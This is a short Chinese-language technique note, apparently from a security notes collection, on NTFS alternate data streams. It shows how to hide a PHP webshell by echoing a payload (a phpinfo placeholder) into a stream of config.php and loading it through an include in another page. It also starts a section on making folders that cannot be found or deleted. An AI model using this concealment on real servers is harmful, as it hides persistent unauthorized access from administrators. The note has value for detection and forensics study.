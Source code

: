 ## **隐藏webshell**
---
php的include函数可以正常解析数据流中的信息,可以将一句话加到某个正常页面文件的数据流中,再通过include进行包含解析  
正常文件:config.php
```php
<?php
...
...
...
?>
```
将payload加入正常文件数据流中(^为转义字符)`echo ^<?php phpinfo();?^> >config.php:payload.php`  
在另一个info.php文件使用include包含
```php
<?php
    include 'config.php:payload.php'
?>
```
访问info.php即可
</br>

![2](NTFS_20.jpg)
通过`notepad config.php:payload.php即可看到内容`  
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>
</br>

## **创建"找不到"和无法删除的文件夹**
---
windows无法创建带.的文件夹名称,但通过指定数据流类型可创建带.的文件夹  